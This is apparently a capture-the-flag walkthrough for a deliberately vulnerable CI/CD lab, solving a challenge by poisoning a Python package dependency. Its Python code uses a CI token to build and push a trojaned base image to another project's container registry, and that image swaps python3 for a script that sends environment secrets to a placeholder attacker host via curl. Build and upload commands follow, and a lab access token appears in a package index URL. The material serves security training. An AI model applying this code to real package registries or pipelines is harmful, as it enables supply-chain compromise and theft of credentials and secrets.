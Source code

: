 [![CICD-SEC-3 Dependency Chain Abuse](https://img.shields.io/badge/CICD--SEC--3-Dependency%20Chain%20Abuse-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/dependency-chain-abuse/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)
[![CICD-SEC-6 Insufficient Credential Hygiene](https://img.shields.io/badge/CICD--SEC--6-Insufficient%20Credential%20Hygiene-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/insufficient-credential-hygiene/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)

Let's explore what we have when signing in to the compromised GitLab user account:

We are the maintainers of *pygryphon* package. There are also public projects: *nest-of-gold* and *awesome-app* to which we have read-only access.

As the instructions of this challenge hint, let's try to see if we can find any reference to *Flag11*.

A simple search tells us it is referenced by the *nest-of-gold* project 


![grpyhon](../images/gryphon-1.png "grpyhon")

We can see that *Flag11* is used in a pipeline that ships a container used in production.

Browsing to the pipeline settings, we discover that a scheduling is set, and that a user named "gryphon" is executing the pipeline.

If we keep looking, we can discover that the same user is executing the *awesome-app* project's pipeline.

Diving into *awesome-app*, it is using the pygrphon package as a dependency! We can tell it by the *requirments.txt* file:

```
--extra-index-url http://token:cd79dd622c6d463a574635e874765c0b@gitlab/api/v4/projects/pygryphon%2Fpygryphon/packages/pypi/simple --trusted-host gitlab

pytest==7.2.0
flask==2.0.3
Werkzeug==2.0.3
pygryphon==1.0.13
```

This means we can try and influence the *awesome-app* pipeline by uploading a new malicious Python package of *pygryphon*. We'll get back to it in a moment.

Our end goal is in the *nest-of-gold* project, how can we influence its pipeline?
  
Let's have a look at the Dockerfile inside *nest-of-gold*. We can see it's dependent on the python:3.8 docker image stored in the *nest-of-gold* container registry, and not the offical registry.
  
```docker
FROM gitlab:5050/wonderland/nest-of-gold/python:3.8

WORKDIR /app
COPY app.py .
COPY requirements.txt .
RUN pip3 install -r requirements.txt

CMD [ "python3", "-m" , "flask", "run", "--host=0.0.0.0"]
```
  
Here comes the tricky part 🥸 let's create a malicious *pygryphon* package that pushes a malicious python3.8 docker base image to the *nest-of-gold* container registry.


In the *awesome-app* pipeline we can see a PAT being used named *TOKEN*.

`docker login -u gryphon -p $TOKEN $CI_REGISTRY`

Let's try to steal this token and use it against the *nest-of-gold* container registry.     
In this package, we create a script named "python3" that the docker image of *nest-of-gold* will execute mistakenly instead of the actual python3 interpreter.   
Modified *greet.py* content:

```python
import subprocess

DOCKERFILE = """FROM python:3.8
COPY python3 /usr/local/bin/
COPY python3 /usr/local/bin/pip3"""
# Exfiltrate Flag11. Insert your server address
PYTHON3 = """#!/bin/bash
env | grep FLAG11 | curl -X POST --data-binary @- https://ATTACKER[.]SERVER/"""


def run(cmd):
    proc = subprocess.run(cmd, shell=True, timeout=180)
    print(proc.stdout)
    print(proc.stderr)


def hello(name):
    """
    We will build and push a malicous docker image as if it were python 3.8, but in fact 
    the python3 binary will be our evil script
    """
    run('apk add docker-cli')
    with open('Dockerfile', 'w') as f:
        f.write(DOCKERFILE)
    with open('python3', 'w') as f:
        f.write(PYTHON3)
    # Grant our script execution permission    
    run('chmod +x python3')
    # Build the docker file
    run('DOCKER_HOST=tcp://docker:2375 docker build -t gitlab:5050/wonderland/nest-of-gold/python:3.8 .')
    # Login to the docker registry using TOKEN
    run('DOCKER_HOST=tcp://docker:2375 docker login -u gryphon -p $TOKEN $CI_REGISTRY')
    # Push our malicious python docker image to the registry
    run('DOCKER_HOST=tcp://docker:2375 docker push gitlab:5050/wonderland/nest-of-gold/python:3.8')    
    return "Hello, " + name
```

Build and upload this package to the gryphon package registry (after configuring GitLab as the package registry).

Conveniently you may use these files to build the package:  

[.pypirc](/tests/data/pygryphon/.pypirc)

[pyproject.toml](/tests/data/pygryphon/pyproject.toml)


```sh
pipenv run python3 -m build [path_to_package]
pipenv run python3 -m twine upload -r gitlab
```

Now prepare a cup of coffe ☕️ wait for the two pipeline scheduling to take place, and expect the flag to arrive at your http server.
